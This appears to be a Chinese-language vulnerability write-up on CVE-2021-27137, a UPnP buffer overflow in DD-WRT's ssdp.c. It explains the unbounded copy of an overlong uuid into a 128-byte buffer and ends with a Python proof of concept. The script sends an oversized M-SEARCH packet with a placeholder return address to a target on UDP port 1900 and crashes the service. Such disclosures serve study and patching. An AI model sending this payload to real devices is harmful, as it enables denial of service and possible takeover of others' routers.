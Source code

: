 # DD-WRT UPNP缓冲区溢出漏洞 CVE-2021-27137

# DD-WRT UPNP缓冲区溢出漏洞 CVE-2021-27137

## 漏洞描述

默认情况下，DD-WRT中的UPNP处于禁用状态，并且仅在内部网络接口上侦听。

UPNP本质上是未经身份验证的UDP形式的协议–由于无法对协议强制执行身份验证，因此它既易于使用又具有不安全。

如果DD-WRT启用了UPNP服务，则坐在存在DD-WRT设备的LAN上的远程攻击者可以通过发送一个过长的`uuid`值来触发缓冲区溢出。

根据部署DD-WRT的平台的不同，可能存在缓解措施，也可能没有缓解措施，例如ASLR等，这使得可利用性取决于安装DD-WRT的平台。

## 漏洞影响

```
DD-WRT < 45723 版本
```

## 漏洞复现

通过查看源代码，`ssdp.c`可以很容易地发现有问题的代码：



![](/images/202202162248612.png)

用户提供的数据的未绑定副本被复制到缓冲区中，该缓冲区的大小限制为128个字节。

由于默认情况下未启用UPNP服务，因此重新创建漏洞的第一步是启用将自动启动该服务的服务

![](/images/202202162248025.png)

启动PoC脚本将触发upnp服务崩溃，这可以在启动以下python脚本几秒钟后看到

![](/images/202202162248047.png)

## 漏洞POC

```python
import socket
target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 
payload = off + ret_addr
packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```

